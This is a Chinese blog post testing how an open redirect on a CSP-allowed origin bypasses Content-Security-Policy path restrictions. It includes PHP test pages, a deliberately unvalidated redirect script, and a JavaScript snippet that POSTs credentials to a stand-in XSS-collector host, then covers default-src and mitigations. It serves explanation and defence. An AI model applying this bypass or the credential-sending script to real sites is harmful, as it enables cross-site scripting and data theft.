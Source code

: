 ```yaml
---
layout: post
title: "redirect Bypass CSP 目录限制"
categories:
- 今日头条
tags:
---
```

![](http://p1.pstatp.com/large/127a0004446313524b79)

CSP真神奇，前段时间看了一篇国外的文章，导致有了新的体验，302不仅仅可以在ssrf中有特殊的表现，就连csp也可以，很强势。

漏洞



让我们逐步分析漏洞的成因

根据文章，首先我们意识到如果我们构造一个重定向，就可以bypass CSP的域限制，在分析之前，我们先看一个测试页面

123456789101112 <?php header("Content-Security-Policy: script-src http://127.0.0.1/ http://xss.cc/the_only_allow_dir/"); ?> <html> <head> </head> <body> csp header test  <script src="/test/js/test.php?u=//xss.cc/myjs/a.js"> </script> </body> </html>

这是一个比较常见的包含csp的站，整个站都在/test/下，/test/js/下包含正常的js.

而CSP中仅仅允许了两个域

- http://127.0.0.1

- http://xss.cc/the_only_allow_dir/

在第一个域下的某个位置有个可以定义重定向的页面，比如

http://127.0.0.1/test.php

这里测试的时候写在了根目录下，不过是要是域内允许的任何位置都可以

123 <?php header("Location: " . $_GET[u]); ?>

这样的功能一般多出现在登陆页面

第二个我们需要一个被允许的域，比如http://127.0.0.1/里一般会有js目录被允许，然后可能存在upload域可以上传一个js

这里我们允许了http://xss.cc/the_only_allow_dir/这个域，然后在

1http://xss.cc/myjs/a.js

写了一个js，内容是

1alert(32)

现在所有的条件都具备了，打开上面的测试页面。

![](http://p2.pstatp.com/large/11f600078e5cfd20ab5e)

成功了

漏洞的限制以及必备条件？



在成功之后，我们可能需要讨论的更多，那么这个漏洞的限制在哪

如果我们不允许302所在的域

代码成了下面这样

12345678910111213141516 <?php header("Content-Security-Policy: script-src http://127.0.0.1/test/js/ http://xss.cc/test/"); ?> <html> <head> </head> <body> csp header test<!--  <script> document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";"; </script> --> <script src="/test/302.php?u=//xss.cc/myjs/a.js"> </script> </body> </html>

这里我们把302.php放在了站的根目录下，而我们只允许了http://127.0.0.1/test/js/和http://xss.cc/test/两个域下，很显然，302.php并不在被允许的域，结果显而易见。

![](http://p9.pstatp.com/large/11f600078e5b6077394d)

被CSP拦截了

去掉外域的允许

将代码改为

12345678910111213141516 <?php header("Content-Security-Policy: script-src http://127.0.0.1/test/js/"); ?> <html> <head> </head> <body> csp header test<!--  <script> document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";"; </script> --> <script src="/test/js/302.php?u=//xss.cc/myjs/a.js"> </script> </body> </html>

我们/test/js/302.php?u=//xss.cc/myjs/a.js这句跳转到了外域xss.cc的myjs目录下，但是我们把外域下的CSP策略删除了。

![](http://p3.pstatp.com/large/127a000444607f1fe071)

结果是CSP仍然会追过去，被拦截了，什么都没发生。

外域既然允许，我们可以直接使用吗

测试到这里，肯定有个猜测，如果外域既然允许，是不是我们可以直接使用，代码如下

12345678910111213141516 <?php header("Content-Security-Policy: script-src http://127.0.0.1/test/js/ http://xss.cc/test/"); ?> <html> <head> </head> <body> csp header test<!--  <script> document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";"; </script> --> <script src="//xss.cc/myjs/a.js"> </script> </body> </html>

结果不变

![](http://p9.pstatp.com/large/11f600078e6065f36d78)

既然能执行js，那么能发数据到xss平台吗

既然我们成功的绕过了CSP的限制，那么我们是不是能把数据发送出去呢，比如发到xss平台

代码仍然如下

12345678910111213141516 <?php header("Content-Security-Policy: script-src http://127.0.0.1/test/js/ http://xss.cc/test/"); ?> <html> <head> </head> <body> csp header test<!--  <script> document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";"; </script> --> <script src="/test/js/302.php?u=//xss.cc/myjs/test.js"> </script> </body> </html>

这里我们把js换成了test.js

1234 var xml = new XMLHttpRequest();  xml.open('POST', 'http://xss.cc', true);  xml.setRequestHeader("Content-type","application/x-www-form-urlencoded");  xml.send('username=123&password=123');

![](http://p3.pstatp.com/large/127a0004446291ae7507)

然后看看

![](http://p3.pstatp.com/large/11fe000854f334c67c54)

看上去成功了

看上去收到了，可是我们是不是忽略了什么，CSP的设置好像少了default-src

12345678910111213141516 <?php header("Content-Security-Policy: default-src self script-src http://127.0.0.1/test/js/ http://xss.lazysheep.cc/test/"); ?> <html> <head> </head> <body> csp header test<!--  <script> document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";"; </script> --> <script src="/test/js/302.php?u=//xss.lazysheep.cc/myjs/test.js"> </script> </body> </html>

现在我们再试试看

![](http://p3.pstatp.com/large/127a000444611c98bb27)

被拦截了，事实上，并没有成功跨域

结论



总结来看，这里漏洞利用需要一些条件

1、在script-src允许的域下，需要存在一个重定向的页面，这种页面大多存在于登陆，退出登录。

2、在script-src允许的域下，存在某个任意文件的上传点（任意目录）。

3、有特别的方式跨域发送请求，或者有站内域可以接受请求。

看起来是比较难得利用条件，但是其实不然

比如某个站调用某个cdn，或者类似于script-src example.com/scripts/ google.com/recaptcha/，google.com/script/*下有个evil.js，然后刚好站内有个重定向，漏洞条件已经成立了。

为什么



那么为什么CSP会发生这样的漏洞呢，原作者提到了这样的问题,在Egor Homakov的文章中说了这个问题

http://www.myseosolution.de/deanonymizing-facebook-users-by-csp-bruteforcing/

事实上如果想要避免这样的问题，我们需要紧缩csp中允许的范围，而最好的解决办法是禁用重定向，文档中关于重定向的文章在这里

https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects
